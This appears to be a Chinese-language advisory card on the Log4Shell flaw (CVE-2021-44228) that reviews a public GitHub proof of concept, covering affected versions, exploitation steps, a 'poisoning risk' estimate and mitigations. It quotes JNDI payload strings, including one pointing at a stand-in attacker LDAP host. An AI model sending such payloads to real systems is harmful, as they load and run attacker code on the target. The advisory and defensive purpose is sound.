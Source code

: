 ## CVE-2021-44228-Apache Log4j2-远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致完全系统控制

**影响版本:** 2.0-beta9 to 2.15.0 (不包括安全版本 2.12.2, 2.12.3, and 2.3.1)

**利用条件:** 目标系统使用了受影响的 Log4j2 版本，并且开启了 message lookup substitution。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228 (Log4Shell) 是 Apache Log4j2 中的一个高危远程代码执行漏洞。攻击者可以通过控制日志消息或日志消息参数，利用 JNDI 特性，从恶意的 LDAP 服务器加载并执行任意代码。

**有效性：**
提供的PoC代码有效。它通过构造包含 JNDI LDAP 查找的 HTTP Header (X-Api-Version) 发送到目标，目标如果存在漏洞，将会触发一个回调到攻击者指定的 LHOST。

**投毒风险：**
代码本身相对简单，主要功能是发送包含恶意 JNDI payload 的 HTTP 请求并监听回调。可能的投毒风险在于：
*   **依赖风险：** 代码使用了 `net/http` 和 `net` 包。虽然是标准库，但如果编译过程中存在恶意替换或者构建环境被污染，可能存在风险。此风险较低，估计在10%左右。
*   **LHOST欺骗：** PoC 代码强制要求用户指定回调 LHOST。攻击者可能诱导受害者使用受控的 LHOST，从而获取受害者目标系统的相关信息，或者进行中间人攻击。但这不是代码本身的投毒，而是使用方式上的欺骗。
*   **LDAP 服务器风险：** 代码中的 `jndi:ldap://%s:1389/a` 指向的 LDAP 服务器是攻击者控制的。这意味着攻击者可以在 LDAP 服务器上放置恶意 Java 对象，从而在受害者系统上执行任意代码。

由于该PoC的目的是验证漏洞，并且代码相对简单，因此直接隐藏恶意代码的可能性较低。主要的风险在于运行环境和攻击者控制的LDAP服务器。

**利用方式：**
1.  **漏洞触发：** 攻击者向目标系统发送包含特定格式字符串（例如 `${jndi:ldap://attacker.com/evil}`）的请求。该字符串会被 Log4j2 解析为 JNDI 查找。
2.  **JNDI 注入：** Log4j2 通过 JNDI 接口向指定的 LDAP 服务器 (attacker.com) 发起请求。
3.  **恶意代码加载：** 攻击者控制的 LDAP 服务器返回一个包含恶意 Java 对象的响应。
4.  **远程代码执行：** Log4j2 反序列化该 Java 对象，导致任意代码在目标系统上执行。

**缓解措施：**
*   升级 Log4j2 到 >= 2.16.0 版本，该版本完全移除了 JNDI 功能。
*   如果无法升级，设置 `log4j2.formatMsgNoLookups=true` 系统属性或环境变量来禁用 message lookup substitution。
*   使用防火墙或网络策略限制对外部 LDAP 服务器的访问。

**项目地址:** [Sorrence/CVE-2021-44228](https://github.com/Sorrence/CVE-2021-44228)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)